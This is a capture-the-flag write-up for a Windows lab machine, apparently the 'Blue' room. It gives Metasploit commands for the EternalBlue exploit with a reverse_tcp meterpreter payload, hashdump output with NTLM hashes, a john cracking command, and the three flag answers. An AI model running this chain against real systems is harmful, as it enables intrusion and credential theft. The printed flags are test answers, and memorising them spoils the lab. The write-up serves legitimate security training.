



# Blue
# [cd ../](../index.md)

# Start

## Scans
[nmap](nmaps.txt)
- We have smb
- Search for vulns (windows 7 professional 7601 service pack 1 microsoft-ds exploit)  
  [Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)](https://www.exploit-db.com/exploits/42315)
- Just open metasploit and search for `MS17-010`  
  We need the `exploit/windows/smb/ms17_010_eternalblue` exploit.  
  Set it up and `exploit`

  ```
  set RHOSTS 10.10.133.12
  set payload windows/x64/meterpreter/reverse_tcp
  set encoder generic/none
  exploit
  ```
- Got ***nt authority\system***
- Migrate to an other process (`migrate <PID>`)

```
ps
migrate 624
```


- We can now get the user hashes, names with `hashdump`  

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
  

## Crack the hash of Jon
Just save it locally and use john to crack it
```
echo "Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::" > jon.hash
john --format=NT --wordlist=/home/matesz/tools/wordlists/rockyou.txt jon.hash
```
Got `alqfna22`

## Search for flags
- flag1 is in `/flag1.txt`  
  `flag{access_the_machine}`
- flag2 is in `/Windows/System32/config/flag2.txt`  
  `flag{sam_database_elevated_access}`
- flag3 is in `/Users/Jon/Documents`  
  `flag{admin_documents_can_be_valuable}`

# Got 3v3ry7h1ng

